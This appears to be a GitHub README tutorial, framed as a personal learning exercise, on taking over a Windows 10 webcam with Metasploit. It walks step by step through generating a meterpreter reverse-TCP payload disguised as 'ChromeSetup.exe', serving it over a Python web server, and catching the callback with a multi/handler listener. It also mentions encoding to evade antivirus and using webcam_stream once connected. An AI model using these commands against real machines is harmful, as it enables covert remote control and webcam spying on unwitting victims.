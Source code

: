 # Hack_Windows10-WebCam__
                                                                                                           Hack a Windows 10 webcam – Metasploit

This project is for learning purposes only and is not to be used for malicious purposes. These tests were carried out on a personal device.
In this project i'm gonna learn how i can hack the webcam of my Windows 10 laptop.
(root mode requied)

1.......OK 
First of all i gonna use MSFVenom ! 
But what is MSFVenom ?

MFSVenom is a tool included in the Metasploit framework. It is the result of the merger of the former MSFpayload and MSFencode tools. MSFVenom will be used to create a payload 1  with an encoding. (or even multi-encoding) to evade antivirus software, for example. 
The tool is launched in a terminal.

2.......OK
mfsvenom -p windows/x64/meterpreter/reverse_tcp lhost=<ip-adress-kali(xxx.xxx.x.xx)> lport=<Listening-port (inmyexample1234> -f exe > ChromeSetup.exe

This command generates a payload for the Metasploit framework with the intention of creating a Windows executable (.exe).

Let's analyze :

||| mfsvenom: This is the main payload generation command in Metasploit.

||| -p windows/x64/meterpreter/reverse_tcp: This specifies the type of payload to be generated. In this case, it's a payload for 64-bit Windows architecture that uses the Meterpreter module to establish a reverse_tcp connection. This means that the target machine will connect outbound to the specified IP address to establish a remote control session.

||| lhost=<ip-adress-kali(xxx.xxx.x.xx)> This is the IP address of the attacker's machine listening to the connection and the target machine would attempt to connect to this IP address to establish a remote control session via the generated payload.

||| lport=<Listening-port>: This is the port on which we'll listen for the incoming connection(you can use 65 000 ports me i choosed 1234).

|||-f exe: This specifies the output format of the payload, in this case a Windows executable (.exe extension).

|||> ChromeSetup.exe: This redirects the command output to a file called "ChromeSetup.exe". This is the executable file that will be generated and potentially used in the context of an attack.

3.......OK
Next we want to start a python script in our Terminal window if python doesn't work try using python 2 or 3.

python -m SimpleHTTPServer 8080

This is a Python command used to launch a simple web server in the current directory. This server uses the specified port, in this example 8080.

Let's analyze :
||| python: This is the Python interpreter program.
||| -m SimpleHTTPServer: This is a built-in Python module called SimpleHTTPServer, which provides a basic HTTP server to serve files in the current directory.
||| 8080: This is the port number on which the server will listen for incoming connections.

Once you've executed this command, the web server will be started in the directory from which you issued the command. You'll be able to access the files in this directory via a web browser, using the address http://localhost:8080 in this case.

IMPORTANT NOTE :
When I was writing this, I learned that the python command -m SimpleHTTPServer 8080 uses the SimpleHTTPServer module that was present in versions of Python 2.x. However, if you're using Python 3.x, this module has been replaced by the http.server module.
Here's how you can run a simple HTTP server with Python 3.x : python -m http.server 8080

4.......OK
Now launch Metasploit : (msfconsole -q) to start the Metasploit framework in console mode (msfconsole) with the -q option, which stands for "quiet". The -q option is used to start Metasploit in silent mode, which means that banners and welcome information will not be displayed on startup.

You should see the msf6 tag appear:

1-
msf6 > use exploit/multi/handler---------------------------------------------------Is used to configure Metasploit as an exploit manager. The exploit manager is used to listen for reverse shells generated by exploits or payloads running on target machines.

2-Set the payload you want to release
msf6 > set payload windows/x64/meterpreter/reverse_tcp---------------------------Is used to define the type of payload you wish to use. The payload specified determines the behavior of the payload that will be delivered to the target machine upon successful exploitation.

3-Set the lhost ip of your kali machine(if you are on kali)
msf6 > set lhost <ip-adress-kali(xxx.xxx.x.xx)>--------------------The set LHOST XXX.XXX.X.XXX command in Metasploit is used to define the IP address on which the operating manager listens for return connections. In this example, the specified IP address is XXX.XXX.X.XXX

4-Set the port 
msf6 > set lport 1234

5-Use Run or Exploit for launch

Now u can see 1 session open kali --> windows10
U can tap shell to have the connection confirmation
Now you are in the windows pc D:\> tap help to watch the differents windows files
Tap exit and now meterpreter > help u can see now tools for metasploit like webcam_stream.

